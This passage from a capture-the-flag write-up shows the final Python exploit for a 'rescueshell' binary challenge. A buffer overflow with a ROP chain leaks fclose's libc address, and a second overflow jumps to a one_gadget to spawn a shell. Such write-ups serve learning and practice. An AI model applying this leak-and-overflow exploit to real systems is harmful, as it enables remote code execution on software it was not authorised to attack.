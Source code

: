 Don’t choose your gadgets at random! ;) There was a lot of strlen/write in the code that we could have used to leak fclose’s address, however the one I chose was great because the code continues and goes through our read and ```sym.check_passphrase``` again!

Which means that we can trigger the buffer overflow a second time, allowing us to write the computed address: ```fclose_leak_addr - offset_difference```.

### Putting it all together: final exploit.

```
import binexpect
import struct

if __name__=='__main__':


    setup = binexpect.setup('nc rescueshell.challs.malice.fr 6060')
    target = setup.target()
    target.setecho(False)

    pop_rdi_ret         = 0x400a93
    slen_write          = 0x4009ca
    fclose_got          = 0x601220

    offset_one_gadget   = 0x41320
    offset_fclose       = 0x695e0
    diff_offset         = offset_fclose - offset_one_gadget

    payload  = b'A' * 64                                    ## fill buffer
    payload += struct.pack('Q', fclose_got+0x150)           ## ADDR used for write
    payload += struct.pack('Q', pop_rdi_ret)                ## POP addr to leak
    payload += struct.pack('Q', 0x400abc)                   ## 8 bytes + '\x00'
    payload += struct.pack('Q', slen_write)                 ## STRLEN / WRITE / READ

    target.tryexpect('Password: ')
    target.sendbin(payload)
    target.sendeof()
    target.flush()

    target.tryexpect(b'.*\x7f')
    raw = target.after[-6:]
    leak = struct.unpack('Q', raw.ljust(8, b'\x00'))[0]     ## LEAK fclose addr
    print('[+] Leaked fread addr: %s' % hex(leak))

    one_gadget = leak - diff_offset                           ## Calculate real addr for sh
    print('[+] one_gadget should be at: %s' % hex(one_gadget))

    payload  = b'B' * 64
    payload += struct.pack('Q', 0x42424242)                 ## RBP on .got
    payload += struct.pack('Q', one_gadget)                 ## one_gadget

    target.sendbin(payload)
    target.sendeof()

    target.pwned()
```


[//]: <> (文章所涉及到的技术点、WriteUp的链接)
[//]: <> (题目)
[//]: <> (WriteUp内容)